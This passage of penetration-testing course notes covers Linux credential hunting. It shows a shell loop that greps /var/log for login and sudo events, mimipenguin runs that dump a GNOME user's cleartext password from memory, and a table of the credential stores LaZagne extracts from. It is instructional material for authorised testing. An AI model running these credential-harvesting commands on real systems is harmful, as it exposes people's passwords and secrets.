 {% code overflow="wrap" fullWidth="true" %}
```shell-session
cry0l1t3@unixclient:~$ for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done

#### Log file:  /var/log/dpkg.log.1
2022-01-10 17:57:41 install libssh-dev:amd64 <none> 0.9.5-1+deb11u1
2022-01-10 17:57:41 status half-installed libssh-dev:amd64 0.9.5-1+deb11u1
2022-01-10 17:57:41 status unpacked libssh-dev:amd64 0.9.5-1+deb11u1 
2022-01-10 17:57:41 configure libssh-dev:amd64 0.9.5-1+deb11u1 <none> 
2022-01-10 17:57:41 status unpacked libssh-dev:amd64 0.9.5-1+deb11u1 
2022-01-10 17:57:41 status half-configured libssh-dev:amd64 0.9.5-1+deb11u1
2022-01-10 17:57:41 status installed libssh-dev:amd64 0.9.5-1+deb11u1

...SNIP...
```
{% endcode %}

***

### <mark style="color:blue;">Memory and Cache</mark>

Many applications and processes work with credentials needed for authentication and store them either in memory or in files so that they can be reused.&#x20;

<mark style="color:orange;">**Memory - Mimipenguin**</mark>

```shell-session
cry0l1t3@unixclient:~$ sudo python3 mimipenguin.py
[sudo] password for cry0l1t3: 

[SYSTEM - GNOME]	cry0l1t3:WLpAEXFa0SbqOHY


cry0l1t3@unixclient:~$ sudo bash mimipenguin.sh 
[sudo] password for cry0l1t3: 

MimiPenguin Results:
[SYSTEM - GNOME]          cry0l1t3:WLpAEXFa0SbqOHY
```

An even more powerful tool we can use that was mentioned earlier in the Credential Hunting in Windows section is `LaZagne`. This tool allows us to access far more resources and extract the credentials. The passwords and hashes we can obtain come from the following sources but are not limited to:

<table data-full-width="true"><thead><tr><th></th><th></th><th></th><th></th></tr></thead><tbody><tr><td>Wifi</td><td>Wpa_supplicant</td><td>Libsecret</td><td>Kwallet</td></tr><tr><td>Chromium-based</td><td>CLI</td><td>Mozilla</td><td>Thunderbird</td></tr><tr><td>Git</td><td>Env_variable</td><td>Grub</td><td>Fstab</td></tr><tr><td>AWS</td><td>Filezilla</td><td>Gftp</td><td>SSH</td></tr><tr><td>Apache</td><td>Shadow</td><td>Docker</td><td>KeePass</td></tr><tr><td>Mimipy</td><td>Sessions</td><td>Keyrings</td><td></td></tr></tbody></table>
